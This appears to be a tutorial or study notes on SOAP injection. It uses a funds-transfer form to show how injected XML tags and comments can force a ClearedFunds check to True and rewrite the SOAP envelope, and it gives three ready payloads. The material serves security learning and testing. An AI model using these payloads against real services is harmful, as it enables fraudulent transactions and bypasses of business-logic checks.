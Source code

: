 
## 🎯 Goal of SOAP Injection

Manipulate the backend SOAP message to:

* **Bypass logic checks** (like ClearedFunds=False)
* **Insert fake values**
* **Comment out logic**
* **Trigger unauthorized behavior**

---

## 🚨 SOAP Injection Attack Examples

### ⚔️ **1. Classic Injection**

Inject custom tags (like another `<ClearedFunds>True</ClearedFunds>`) **before** the legit one:

```http
FromAccount=18281008&
Amount=1430</Amount><ClearedFunds>True</ClearedFunds><Amount>1430&
ToAccount=08447656
```

🔍 If the backend reads **only the first `<ClearedFunds>`**, the attacker **forces approval**, even with no money.

---

### ⚔️ **2. Tag Injection + Comment**

Inject tag and comment out rest of the XML to break logic:

```http
Amount=1430</Amount><ClearedFunds>True</ClearedFunds>
<ToAccount><!--
```

And then:

```http
ToAccount=08447656-->&Submit=Submit
```

👉 You’re using XML comments to **remove** legit parts of the original message and **insert your own logic**.

---

### ⚔️ **3. Full SOAP Injection**

Try to **override the full SOAP structure** from inside a parameter.

```xml
<ToAccount>08447656</ToAccount></Account></pre:Add></soap:Body></soap:Envelope>
<!--&Submit=Submit
```
